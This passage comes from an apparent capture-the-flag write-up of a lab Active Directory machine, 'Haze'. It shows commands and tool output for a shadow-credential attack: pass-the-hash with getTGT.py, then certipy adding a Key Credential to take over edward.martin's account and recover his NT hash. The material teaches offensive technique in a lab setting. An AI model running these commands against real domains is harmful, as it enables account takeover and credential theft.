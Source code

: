 The password age policy isn’t letting me change it.

#### Shadow Credential

Instead of setting the password, I’ll use a Shadow Credential. I typically go this way anyway. After adding the Haze-IT-Backup$ account to the Support Services group, I’ll use `certipy` to set the credential:

```

oxdf@hacky$ getTGT.py haze.htb/Haze-IT-Backup\$ -hashes :4de830d1d58c14e241aff55f82ecdba1
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in Haze-IT-Backup$.ccache
oxdf@hacky$ KRB5CCNAME=Haze-IT-Backup\$.ccache certipy shadow auto -username 'Haze-IT-Backup$' -account edward.martin -k -target dc01.haze.htb
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DC host (-dc-host) not specified and Kerberos authentication is used. This might fail
[!] DNS resolution failed: The DNS query name does not exist: dc01.haze.htb.
[!] Use -debug to print a stacktrace
[!] DNS resolution failed: The DNS query name does not exist: HAZE.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'edward.martin'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'd9ffe20dccd64735b0ddbd56c80d1937'
[*] Adding Key Credential with device ID 'd9ffe20dccd64735b0ddbd56c80d1937' to the Key Credentials for 'edward.martin'
[*] Successfully added Key Credential with device ID 'd9ffe20dccd64735b0ddbd56c80d1937' to the Key Credentials for 'edward.martin'
[*] Authenticating as 'edward.martin' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'edward.martin@haze.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'edward.martin.ccache'
[*] Wrote credential cache to 'edward.martin.ccache'
[*] Trying to retrieve NT hash for 'edward.martin'
[*] Restoring the old Key Credentials for 'edward.martin'
[*] Successfully restored the old Key Credentials for 'edward.martin'
[*] NT hash for 'edward.martin': 09e0b3eeb2e7a6b0d419e9ff8f4d91af

```

This gives both a TGT and the NTLM hash for edward.martin.

It’s important to get a new TGT first, as the old one doesn’t have that Haze-IT-Backup$ is in the Support\_Services group. If I don’t get a new TGT, it’ll show this error:

```

oxdf@hacky$ KRB5CCNAME=Haze-IT-Backup\$.ccache certipy shadow auto -username 'Haze-IT-Backup$' -account edward.martin -k -target dc01.haze.htb
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[!] DC host (-dc-host) not specified and Kerberos authentication is used. This might fail
[!] DNS resolution failed: The DNS query name does not exist: dc01.haze.htb.
[!] Use -debug to print a stacktrace
[!] DNS resolution failed: The DNS query name does not exist: HAZE.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'edward.martin'
[*] Generating certificate
[*] Certificate generated
```